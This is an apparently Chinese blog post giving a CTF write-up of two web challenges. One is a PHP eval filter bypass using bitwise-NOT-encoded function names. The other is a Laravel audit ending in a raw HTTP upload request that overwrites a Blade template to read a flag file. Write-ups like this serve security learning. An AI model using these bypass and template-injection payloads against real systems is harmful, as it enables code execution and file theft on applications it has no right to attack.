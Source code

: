 ```yaml
---
title: "广东强网杯两道Web Writeup"
date: 2019-09-12T09:06:02+08:00
lastmod: 2019-09-12T09:06:02+08:00
draft: false
tags: ['ctf']
categories: ['CTF笔记']
comment: true
---
```


@level5师傅发在群里的题目，做了两道

<!--more-->

# web4 php

http://119.61.19.212:8082/index.php

```php
<?php
error_reporting(E_ALL^E_NOTICE^E_WARNING);
function GetYourFlag(){
    echo file_get_contents("./flag.php");
}

if(isset($_GET['code'])){
    $code = $_GET['code'];
    //print(strlen($code));
    if(strlen($code)>27){ 
        die("Too Long.");
    }

    if(preg_match('/[a-zA-Z0-9_&^<>"\']+/',$_GET['code'])) {
        die("Not Allowed.");
    }
    @eval($_GET['code']);
}else{
      highlight_file(__FILE__);
}
?>
```

过滤字符数字下划线等等 长度小于等于27 然后调用GetYourFlag()函数即可，可以用`~`按位取反

```php
echo urlencode(~('GetYourFlag'));
```

得到

```php
%B8%9A%8B%A6%90%8A%8D%B9%93%9E%98
```

然后函数需要再取反回来

```php
~(%B8%9A%8B%A6%90%8A%8D%B9%93%9E%98)
```

存到一个变量里，因为过滤，我们用中文来定义变量，我在这用`中`字

```php
echo urlencode('中');	//%E4%B8%AD
```

然后用变量存储我们取反回来的GetYourFlag函数，最后通过变量来调用这个函数

```php
$%E4%B8%AD=~(%B8%9A%8B%A6%90%8A%8D%B9%93%9E%98);$%E4%B8%AD();
```

最后的payload

```
view-source:http://119.61.19.212:8082/index.php?code=$%E4%B8%AD=~(%B8%9A%8B%A6%90%8A%8D%B9%93%9E%98);$%E4%B8%AD();
```

# web5

laravel的代码审计

路由

![20190912093854](https://y4er.com/img/uploads/20190912093854.png)

app/Http/Controllers/UserController.php 注入

![20190912093943](https://y4er.com/img/uploads/20190912093943.png)

![20190912094106](https://y4er.com/img/uploads/20190912094106.png)

密码解不出来，但是在database/factories/UserFactory.php这个工厂函数中给出来了

![20190912095222](https://y4er.com/img/uploads/20190912095222.png)

继续看 app/Http/Controllers/HomeController.php

![20190912094237](https://y4er.com/img/uploads/20190912094237.png)

登录后要从数据库中拿到key，然后才能上传文件，也就是进入`HomeController@uploadss`。传文件的文件名经过一层filecheck()过滤之后移动到视图模板的目录里，清晰了，通过上传覆盖原本的模板然后模板注入读flag。

![20190912094545](https://y4er.com/img/uploads/20190912094545.png)

正好`/resources/views/auth/uploads/`目录有一个`template.blade.php`模板，而路由中也有控制器去渲染这个模板。

![20190912094749](https://y4er.com/img/uploads/20190912094749.png)

![20190912094834](https://y4er.com/img/uploads/20190912094834.png)

构造表单上传之后发现上传filecheck()过滤了很多东西，不能有`php` `<`字样。

首先我们要知道laravel的blade模板是可以自定义php代码的，但是必须是如下格式

```php
@php
    //
@endphp
```

但是过滤了php关键字，没办法，只能去扒一扒blade的文档了，然后发现了自定义模板标签 https://laravel.com/docs/5.8/blade#extending-blade

![20190912095812](https://y4er.com/img/uploads/20190912095812.png)

牛逼，直接@filedata('/flag')就完事了。

```http
POST /home/uploadss/NotAllow6171 HTTP/1.1
Host: 119.61.19.212:8085
Content-Length: 444
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvJNe9ABsnjeKGhDN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Language: zh-CN,zh;q=0.9
Cookie: XSRF-TOKEN=eyJpdiI6IitoWjhwMm1ycmNTWFozSmZTTXJwXC9nPT0iLCJ2YWx1ZSI6IkllczhnNEZodldZbllTN0NmZDErR2I1eXF1bU9mV1wvYklManNuUnQ4YzhJcmlWQ09JVXJPXC9JNHZxVU0xRmdCY0RDbWJHelVwYjQyVjdXQ1FHVlFMMlE9PSIsIm1hYyI6IjNmMGUzZTEwYTA2ZDA2MjJjMDg4OTY5NTI4NDJjNTk2YmQ4N2U4NWYxY2E2ZjU3YWEwNTAwODllMzIyYTU4ZjAifQ%3D%3D; laravel_session=eyJpdiI6InRhRzZmenBJSmFLNHhrb0RlUE5OdVE9PSIsInZhbHVlIjoiZ01qK2JpQURoRHgxbFVrcGc4TE9PK2kycGxSTjlNRzkwK21uVDUxa3UyTW5JYXpIcWJaY2pYbXQwNDc0dklkemNjRmR0aFhZcllmTkRvQXpVUlR3d3c9PSIsIm1hYyI6IjAwMjVkODA3YmY5NDU1Y2U5MDMyMWMwMTI1MTcyMmQ1YTU5NWQzMTE0MGMxMzc0ZWM1NDU4YzQ5MWIyZjI5YTgifQ%3D%3D
Connection: close

------WebKitFormBoundaryvJNe9ABsnjeKGhDN
Content-Disposition: form-data; name="_token"

Z7VZ7FXfNzuzETtQrZ7DeAZCFtbkQl9L8e7ptVin
------WebKitFormBoundaryvJNe9ABsnjeKGhDN
Content-Disposition: form-data; name="files"; filename="template.blade.php"
Content-Type: text/html

@filedata('/flag')
------WebKitFormBoundaryvJNe9ABsnjeKGhDN

Content-Disposition: form-data; name="submit"

Submit
------WebKitFormBoundaryvJNe9ABsnjeKGhDN--
```



**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**